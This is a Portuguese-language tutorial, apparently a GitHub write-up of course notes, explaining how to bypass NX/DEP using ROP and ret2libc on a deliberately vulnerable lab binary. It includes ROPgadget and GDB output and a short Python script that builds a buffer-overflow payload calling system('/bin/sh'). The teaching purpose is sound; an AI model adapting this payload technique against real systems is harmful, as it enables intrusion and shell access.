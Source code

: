 ### Bypass NX/DEP

### Esse texto reúne o que aprendi sobre bypass de NX juntando as video aulas do curso CEB(https://www.youtube.com/playlist?list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3) de exploração de binarios. Aula do 07 a 14.

Primeiro vamos a uma breve introdução sobre o NX ou também conhecido como DEP(Data Execution Prevention):

O NX/DEP é uma técnica de mitigação de exploração usada para garantir que apenas segmentos de código são sempre marcados como executáveis...

Ok, mas como assim somente segmentos de código marcados como executáveis??

Bom, vamos lá. Nos writeups anteriores vimos que para explorar os binários, usamos a técnica de Buffer-overflow para sobrescrever um endereço de retorno e, logo depois dessa sobrescrita, jogamos algum shellcode na stack, para assim ganharmos controle sobre o fluxo de execução do binário. Essa exploração só é possível porque o binário em questão foi compilado com a flag ``` -z execstack ``` que desabilita a proteção NX.

Agora com a proteção ativada, as areas da stack e heap NÃO possuem permissão de execução. Sendo assim, não será possível realizar a exploração jogando algum shellcode na stack, porque simplesmente não será executado (e provavelmente resultara em um SEGFAULT).

Sabendo disso, vamos para a parte do bypass...

### Bypass

* "If you can’t inject (shell)code to do your bidding, you
must re-use the existing code!" RPISEC - MBE lecture_07

Se você não pode injetar código... reutilize o código existente.


O bypass mais conhecido para o NX é o ROP ```(Return Oriented Programming)```. ROP é uma técnica para reutilizar código/instruções existentes em um binário para montar algo malicioso. Outros termos conhecidos são ``` ROPgadgets/Gadgets ``` e ``` ROPchain ```.

Os ``` ROPgadgets ``` ou só ``` Gadgets ``` basicamente são instruções presentes na memória do binário, que não fazem parte da execução da ```main```, mas podem ser utilizadas porque são parte da execução do binário (e geralemente terminam com uma instrução ```RET```). Esses gadgets podem ser usados para montar instruções maliciosas semelhante a um shellcode, e junção dos gadgets é chamada de ``` ROPchain ```.


### Tudo bem, ja sabemos o que é o NX e qual tecnica é usada para "bypassa-lo". Agora vamos para a demonstração:

A ideia é a seguinte: já que não podemos executar um shellcode através da stack, temos que executar algo parecido, então vamos usar a técnica ```ret2libc```. Essa técnica consiste em fazer o binário chamar funções da libc usando os endereços de memória carregados pelo próprio binário em tempo de execução. 

Para o exemplo chamaremos a função ```system()```, e como a função system() sem argumentos não faz nada, vamos passar pra ela a string ```"/bin/sh"``` como argumento. Dessa forma temos algo parecido com um shellcode.

### Step by step da exploração

#### 1 - O binário usado de exemplo nas aulas era vulneravel a um B.O.F, então a primeira coisa a fazer é estourar o buffer e controlar algum endereço de retorno.


#### 2 - Depois de explorar o B.O.F precisamos saber qual ```Gadget``` pode ser usado de forma maliciosa. Para isso vamos usar a tool ROPgadget (https://github.com/JonathanSalwan/ROPgadget) .

Vamos procurar por ```gadgets``` filtrando por ```"pop rdi"```. Porque os registradores ```RDI``` e ```RSI``` são usados para passagem de argumentos na arquitetura de 64 bits. Para que o argumento "/bin/sh" seja passado para a função system ele precisa estar em algum desses registradores.

Rodando a tool e analisando a saida, vemos a instrução que precisamos:

```sh
$ ROPgadget --binary aula_13 --ropchain | grep "pop"

...

0x00000000004011ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004011af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401109 : pop rbp ; ret
0x00000000004011b3 : pop rdi ; ret 	<====== essa aqui
0x00000000004011b1 : pop rsi ; pop r15 ; ret
0x00000000004011ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

Deixe o endereço separado e vamos para o próximo passo.


#### 3 - Agora precisamos achar o endereço da string ```"/bin/sh"``` na memória a qual o binário tem acesso em tempo de execução. 

Para isso vamos rodar o binário no GDB, setar um breakpoint qualquer e logo depois da execução parar no breakpoint, vamos buscar pela string "/bin/sh" da seguinte forma: ``` gdb-peda$ find "/bin/sh" ```

```sh
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f745bd --> 0x68732f6e69622f ('/bin/sh')
```

Deixe esse endereço separado também e vamos para o próximo passo.



#### 4 - A ultima das nossas buscas será pelo endereço da função ```system()```. Fazendo da mesma forma que o endereço de "/bin/sh".

Rode o binário no GDB, sete um breakpoint qualquer e logo depois da execução parar no breakpoint, busque pelo endereço da seguinte forma: ``` gdb-peda$ p system ```


```sh
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
```


#### 5 - Depois de ter os endereços necessários vamos montar o script do exploit:


```py
import struct

buf = b""
buf += b"A"*88                              #JUNK
buf += struct.pack("<Q", 0x4011b3)      	#POP RDI; RET;
buf += struct.pack("<Q", 0x7ffff7f745bd)    #POINTER TO "/bin/sh"
buf += struct.pack("<Q", 0x7ffff7e12290)    #SYSTEM ADDR

f = open("exp", "wb")
f.write(buf)
```


#### 6 - Agora com tudo pronto vamos executar o exploit e ver como tudo funciona:


* RET sobrescrito com o Gadget

![nx1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx1.png)


* O "/bin/sh" seguido pelo função system na stack

![nx2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx2.png)


* "/bin/sh" passado para o registrador RDI

![nx3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx3.png)


* entrando na função system 

![nx4](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx4.png)


* termina execução e sai startando um novo processo

![nx5](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx5.png)


* rodando exploração fora do GDB

![nx6](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx6.png)

